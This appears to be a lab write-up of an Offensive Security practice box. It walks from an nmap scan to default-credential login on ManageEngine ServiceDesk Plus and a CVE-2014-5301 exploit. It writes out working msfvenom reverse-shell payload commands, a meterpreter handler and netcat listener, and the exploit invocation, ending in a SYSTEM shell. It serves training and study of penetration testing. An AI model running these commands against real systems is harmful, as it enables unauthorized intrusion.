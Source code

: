 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Performing a `nmap` scan to identify the attack surface of the target.

## port scan
```bash
$ nmap -Pn -p- 192.168.62.43
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 11:29 EST
Nmap scan report for 192.168.62.43
Host is up (0.00052s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 124.22 seconds

$ nmap -Pn -p3389,8080 -sV -O 192.168.62.43
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-03 11:32 EST
Nmap scan report for 192.168.62.43
Host is up (0.00043s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:50:56:BF:F0:40 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|phone
Running: Microsoft Windows 2008|8.1|7|Phone|Vista
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_vista::- cp>
OS details: Microsoft Windows Server 2008 R2 or Windows 8.1, Microsoft Windows 7 Professional or Windows 8, Microsoft Windows Embedded Standard 7, Microsoft Windows Phone 7.5 or 8.0, Microsoft Windows Vista SP0 or SP1, Windows Server 2>
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.25 seconds

```

## web application (port 8080)

> Login mask reveals that `ManageEngine Service Desk Plus 7.6.0` is installed
{: .prompt-info }

---

# exploitation
## default credentials
Googling for standard credentials of `ManageEngine Service Desk Plus` shows that `administrator:administrator` is set as default.

![default credentials](/images/helpdesk1.png)

> Default credentials are working here!
{: .prompt-info }

## public exploits

There are public exploits available which allow an authenticated remote code execution.  
The exploit we are using can be found here: [CVE-2014-5301](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py)

```python
#!/usr/bin/python3

# This script exploits the directory traversal vulnerability in
# ManageEngine ServiceDesk Plus. It has been tested on version 7.6.0.
# See also https://www.cvedetails.com/cve/CVE-2014-5301/

# Use msfvenom to create a war file with meterpreter payload
# msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.56.108 LPORT=4444 -f war > shell.war
#
# or with a reverse TCP shell
# msfvenom -p java/shell_reverse_tcp LHOST=192.168.56.108 LPORT=4444 -f war > shell.war

# Before executing the script start the meterpreter handler
# meterpreter
#   use multi/handler
#   set payload java/meterpreter/reverse_tcp
#   set LHOST 192.168.56.108
#   run
#
# or start netcat listener on LPORT
# nc -nlvp 4444

# Script usage: ./CVE-2014-5301.py HOST PORT USERNAME PASSWORD WARFILE
# HOST: target host
# PORT: target port
# USERNAME: a valid username for ManageEngine ServiceDesk Plus
# PASSWORD: the password for the user
# WARFILE: a war file containing the mallicious payload
...
```

## use the exploit
### generate the web shell
```bash
$ msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.62.200 LPORT=4444 -f war > shell.war
```

### start the `meterpreter` listener
```bash
$ msfconsole
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.62.200
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.62.200:4444 
```

### fire the exploit
```bash
$ python3 CVE-2014-5301.py 192.168.62.43 8080 administrator administrator shell.war
```

### check for meterpreter session
```bash
[*] Started reverse TCP handler on 192.168.62.200:4444 
[*] Sending stage (58060 bytes) to 192.168.62.43
[*] Meterpreter session 1 opened (192.168.62.200:4444 -> 192.168.62.43:49182 ) at 2022-01-03 11:58:12 -0500

meterpreter > 
```

> It worked! We got a shell.
{: .prompt-info }

---

# post exploitation
## get the flag
```bash
meterpreter > getuid
Server username: SYSTEM
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\ManageEngine\ServiceDesk\bin>whoami
whoami
nt authority\system
C:\Users\Administrator\Desktop>type proof.txt
type proof.txt
0******************************4
```

Pwned! <@:-)
